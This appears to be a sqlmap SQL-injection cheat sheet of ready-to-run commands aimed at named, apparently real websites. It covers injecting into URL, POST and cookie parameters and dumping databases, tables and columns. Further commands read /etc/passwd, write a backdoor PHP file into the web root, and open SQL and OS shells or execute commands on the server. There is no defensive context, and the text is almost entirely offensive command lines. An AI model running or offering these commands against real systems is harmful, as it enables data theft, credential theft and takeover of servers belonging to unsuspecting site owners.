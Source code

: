 # SqlMap Quick CheatSheet


__URL WRITING__

__Single URL__
```console
sqlmap -u http://signisasia.net/books/view?id=1 --dbs
```

__Request in File___

- Capture the request with httpheader,burpsuite
- Save it to req.txt
```console
sqlmap -r request.txt
```


__Request in File(inject only username parameter)__

- Capture the request with httpheader,burpsuite
- Save it to req.txt
```console
sqlmap -r req.txt -p username
```


__Testing a pattern of URL's__

- If we have test for a URL scheme injection like 

```console
http://signisasia.net/books/1/view
http://signisasia.net/books/2/view
http://signisasia.net/books/3/view
```

- The following URL's can be used to test all the URL's

```console
sqlmap -u http://signisasia.net/books/*/view --dbs
```

__[Post injection Direcltly]__
```console
sqlmap -u http://imranparray.com/login.php --data "username=imx&pass=imx100&submit=Submit" -p username

> --data is the post data send in the request
> -p is the injection point.
```




__Using Cookies__
```console
sqlmap -u http://imranparray.com/welcom.php --cookie="PHPSESSID=adsaasd56454a6s54d54" -u http://imranparray.com/welcome/functionality.php?id=100
```




## Exploitation


__Extract Databases__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 --dbs 	
```
__Extract Tables from database__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database --tables
```

__Extract Columns of table_name from database__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database -T table_name --columns
```

__Dumping Data__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database -T table_name -C colum1,column2,clumn3 --dump
```





## Speeding Up The process

__Multithreading__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --threads 5
```


__Null-Connection__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --null-connection
```

__HTTP Persistant Connection__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --keep-alive
```

__Output prediction__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 -D database -T user -c users,password --dump --predict-output
```



## File Privileges

__[Checking privilages]__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --privileges
```

__Reading Files from the server__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --file-read=/etc/passwd
```

__Uploading Files/Shell__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --file-write=/root/imxx/backdoor.php --file-dest=/var/www/imran.php
```








## Getting Shells


__Sql Shell__

```console
sqlmap -u http://imranparray.com/login.php?id=100 --sql-shell
```

__OS shell__
```console
sqlmap -u http://imranparray.com/login.php?id=100 --os-shell
```

__Os Command Exe without Shell Upload__
```console
sqlmap -u http://imranparray.com/login.php?id=100 --os-cmd "uname -a"
```

__Using Proxy__
```console
sqlmap --proxy="127.0.0.1:8888" -u https://imranparray.com/home.php?id=12 --dbs
```
